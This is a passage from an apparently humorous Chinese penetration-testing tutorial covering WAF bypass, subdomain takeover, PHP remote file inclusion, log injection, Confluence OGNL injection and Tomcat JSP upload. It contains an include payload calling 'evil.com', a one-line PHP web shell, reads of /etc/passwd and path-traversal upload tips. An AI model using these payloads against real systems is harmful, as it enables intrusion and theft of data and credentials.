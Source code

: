   - **瞒天过海**：把`UNION SELECT`写成`U/**/NI/**/ON`
  - **美人计**：给payload穿UTF-8裙子
  - **借尸还魂**：把注入语句编码成外星文
    直到看到WAF绝望回显"已阻止本次攻击（第114514次）"，而你用报错注入拿到root权限
  
  **灵魂拷问**：当`sqlmap`自动绕WAF比你手动快十倍，该欣喜还是悲伤？
  
  ------
  
  ### 4.8 子域名接管：互联网的流浪房产证
  
  发现某个被遗忘的`dev.victim.com`指向过期云服务，赶紧注册成自己的AWS账号 —— 这波操作如同在市中心捡到没锁门的二手房。在接管页面上传钓鱼镜像时，恍惚听到原管理员怒吼："我的云服务器，怎么成了《鱿鱼游戏》直播间！？"
  
  **冷知识**：黑客有三喜 —— 过期的SSL证书、无人认领的S3桶、忘记续费的子域名
  
  ------
  
  🦠 新增生存法则：
  
  > - 真·黑客从不亲自爆破密码，他们只偷程序员的Chrome保存的密码
  > - 永远别在黑市展示你在真实漏洞中的秋裤照（来自某匿名安全研究员）
  > - 当你觉得漏洞修复了 —— 那只是管理员把报错页面改成了《太上老君说常清静经》
  
  您的渗透技能点已充值到账，祝您在404页面中发现星辰大海🌌！
  
  ------
  
  ## 第五章：从入门到入院的真实案例续集——漏洞界的《复仇者联盟》
  
  ### 5.1 传奇漏洞：PHP文件包含漏洞
  
  你永远猜不到程序猿会把include函数写成什么样：
  
  ```
  <?php include($_GET['page'].".php"); ?>
  ```
  
  这行代码足以让黑客开旋转木马Party。通过构造?page=http://evil.com/shell.txt%00，可以直接加载远程恶意脚本，整个过程比网吧续费还要丝滑。
  
  ### 5.2 日志注入：我在日志里写小说
  
  某次渗透中发现系统错误日志路径暴露，于是：
  
  1. 用Burp发送包含<?php system($_GET[cmd]);?>的畸形请求
  2. 访问/var/log/apache/error.log成功触发代码执行
  3. 当场用cat /etc/passwd被管理员抓个正着——因为他正用tail -f盯着日志看小电影
  
  ### 5.3 Atlassian Confluence 漏洞：数学老师的复仇
  
  当你发现一个 POST 接口居然会帮你做数学题 (`233*233=54289`)，别急着夸它聪明——这可是 OGNL 表达式注入在嘲讽程序猿！就像给女朋友发消息问"在吗"，她却自动回复你的存款余额还附赠反弹 shell。下次看到 queryString 里藏着变异版希腊字母 (`\u0027`)，程序应该高唱："出卖我的爱，漏洞带回来~"
  
  ### 5.4 Tomcat 魔法文件上传
  
  当你在 Tomcat 看到写着"免费车位"的 PUT 接口 (readonly=false)，就像发现没锁的共享单车。虽然禁止写 JSP 文件，但 Linux 教了我们祖传秘籍：给文件名喂点杠杠片 (`../../../../`)，JSP 马瞬间突破次元壁。冰蝎连接成功的那一刻，仿佛听见服务器在喊："大郎~~该吃 webshell 了~~"
  